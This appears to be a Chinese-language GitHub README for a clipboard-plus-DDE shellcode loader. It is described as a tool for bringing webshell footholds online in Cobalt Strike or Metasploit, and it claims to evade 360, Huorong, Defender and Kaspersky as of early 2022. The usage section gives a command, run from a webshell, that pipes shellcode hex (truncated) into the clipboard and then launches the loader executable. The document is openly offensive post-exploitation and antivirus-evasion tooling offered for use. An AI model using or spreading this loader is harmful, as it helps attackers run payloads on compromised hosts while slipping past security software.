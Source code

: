 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，只能用于webshell上线cs、msf或执行某些shellcode，不能用于钓鱼上线。

原理看之前文章吧，64位效果比32位好

2022/2/11静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

![image](https://user-images.githubusercontent.com/50757673/153533509-104ad517-73f6-47fe-9ad9-29cec7c9e626.png)


用法：webshell命令行下执行
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```

原理：
https://mp.weixin.qq.com/s/0AQzguAU8mS2ktbs-kUF3w
